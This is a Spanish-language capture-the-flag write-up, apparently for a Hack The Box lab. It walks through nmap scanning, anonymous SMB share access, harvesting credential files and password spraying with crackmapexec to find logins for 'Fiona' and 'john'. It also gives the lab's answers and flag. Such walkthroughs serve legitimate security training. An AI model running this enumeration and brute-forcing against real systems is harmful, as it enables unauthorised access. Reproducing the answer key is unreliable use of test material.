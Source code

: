 El tercer servidor es otro servidor interno que se utiliza para gestionar archivos y material de trabajo, como formularios. Además, se utiliza una base de datos en el servidor, cuya finalidad desconocemos.


**1. What file can you retrieve that belongs to the user "simon"? (Format: filename.txt)**

Realizo una numeración básica en nmap y encuentro: 
```
PORT     STATE SERVICE    REASON          VERSION
135/tcp  open  tcpwrapped syn-ack ttl 127
445/tcp  open  tcpwrapped syn-ack ttl 127
3389/tcp open  tcpwrapped syn-ack ttl 127
| ssl-cert: Subject: commonName=WIN-HARD
| Issuer: commonName=WIN-HARD
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-20T10:10:16
| Not valid after:  2026-04-21T10:10:16
| MD5:   5d66:81e0:badb:9221:5f25:5a28:8686:ee24
| SHA-1: fcb3:b69f:21e9:6646:ad4f:7f94:368e:2426:f182:1785
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQGuDzUzGG95xJQEq84bvlVjANBgkqhkiG9w0BAQsFADAT
... ... 8/Zxvrr2GtrizcFtWTJbuc7pxEKsgo3U2YI+p7dTTHDLzX23x84HdGwt2e01J7RP
| tOJR8/O8olo=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-10-21T10:14:50+00:00; -3s from scanner time.

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 12638/tcp): CLEAN (Timeout)
|   Check 2 (port 22036/tcp): CLEAN (Timeout)
|   Check 3 (port 50508/udp): CLEAN (Timeout)
|   Check 4 (port 18868/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -3s
|_smb2-security-mode: Couldn't establish a SMBv2 connection.

```

Puerto 135 -> RPC Endpoint Mapper de Microsoft
Puerto 445 -> SMB
Puerto 3389 -> RDP

SMB:
Con el comando:
```
smbclient -N -L //10.129.203.10

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Home            Disk      
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.203.10 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available

```

Encuentro varios recursos. Por defecto: "ipc", "admin" y "c" son los que aparecen siempre.

Me conecto por smbclient a dicho recurso:
```
smbclient //10.129.203.10/Home
```

Y en la carpeta "simon" encuentro el recurso "random.txt".
Solución "random.txt".

**2. Enumerate the target and find a password for the user Fiona. What is her password?**

random.txt contiene unas credenciales:
```
cat random.txt                            
Credentials

(k20ASD10934kadA
KDIlalsa9020$
JT9ads02lasSA@
Kaksd032klasdA#
LKads9kasd0-@   
```

En la carpeta Fiona existia el fichero:
```
cat creds.txt 
Windows Creds

kAkd03SA@#!
48Ns72!bns74@S84NNNSl
SecurePassword!
Password123!
SecureLocationforPasswordsd123!!

```

Mientras que en la carpeta John existian los ficheros:
```
cat information.txt 
To do:
- Keep testing with the database.
- Create a local linked server.
- Simulate Impersonation.     
```

```
cat notes.txt      
Hack The Box is a massive, online cybersecurity training platform, allowing individuals, companies, universities and all kinds of organizations around the world ...                 
```

```
cat secrets.txt 
Password Lists:

1234567
(DK02ka-dsaldS
Inlanefreight2022
Inlanefreight2022!
TestingDB123
```

Ejecuto fuerza bruta con crackmap y encuentro:
```
crackmapexec smb 10.129.203.10 -u Fiona -p creds.txt --local-auth
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [-] WIN-HARD\Fiona:Windows Creds STATUS_LOGON_FAILURE 
SMB         10.129.203.10   445    WIN-HARD         [-] WIN-HARD\Fiona: STATUS_LOGON_FAILURE 
SMB         10.129.203.10   445    WIN-HARD         [-] WIN-HARD\Fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\Fiona:48Ns72!bns74@S84NNNSl 
```

Fiona:48Ns72!bns74@S84NNNSl 
Respuesta: 48Ns72!bns74@S84NNNSl


**3. Once logged in, what other user can we compromise to gain admin privileges?**
```
crackmapexec smb 10.129.203.10 -u john -p secrets.txt --local-auth 
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\john:Password Lists: 
```
Respuesta: john

**4. Submit the contents of the flag.txt file on the Administrator Desktop.**
`HTB{46u$!n9_l!nk3d_$3rv3r$}`

